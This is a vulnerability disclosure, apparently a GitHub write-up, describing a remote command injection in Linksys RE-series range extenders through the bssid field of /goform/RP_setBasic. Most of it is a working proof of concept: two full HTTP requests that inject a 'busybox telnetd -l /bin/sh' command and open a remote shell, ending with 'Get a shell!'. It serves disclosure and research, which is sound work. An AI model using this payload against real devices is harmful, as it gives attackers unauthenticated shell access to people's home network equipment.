 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500
>
> There is also a stack overflow vulnerability



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_setBasic` function, `bssid` is directly passed by the attacker, so we can control the `bssid` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

Eventually, in `setCrossBand` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Vulnerability trigger steps:

* set `bssid`='`busybox telnetd -l /bin/sh -p 3333`', in (`RP_setBasic`)
* Trigger the vulnerability, in (`setCrossBand`)

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

> RP_setBasicByBBS function exists the same problem, also can set the value of ApCliBssid.



## PoC

set `bssid`='`busybox telnetd -l /bin/sh -p 3334`', in (`RP_setBasic`)

```http
POST /goform/RP_setBasic HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 236
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/site_survey.shtml
Cookie: session_id=ECS6buV5lq79JJeIArM6HDVTWQn2b0un
Upgrade-Insecure-Requests: 1

ssid=NETGEAR50&bssid='`busybox telnetd -l /bin/sh -p 3334`'&channel=2&extChannel=NONE&encrypt=AES&is_wpa_mixed_mode=0&apAuthRep=&auth=WPA2-PSK&EncKey=Y3VybHlyYWJiaXQ4Nzc%3D&Key1Str1=&Key2Str1=&Key3Str1=&Key4Str1=&DefaultKeyID=&b64_pwd=1
```

Trigger the vulnerability, in (`setCrossBand`)

```http
POST /goform/setCrossBand HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/crossband.shtml
Cookie: session_id=ECS6buV5lq79JJeIArM6HDVTWQn2b0un
Upgrade-Insecure-Requests: 1

manual_two_router=upnocross&channel24g_val=-1&channel5g_val=-1&crossbandmethod=auto&manualupItme=upnocross&channel24g=0&channel5g=0
```



## Result

Get a shell!

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

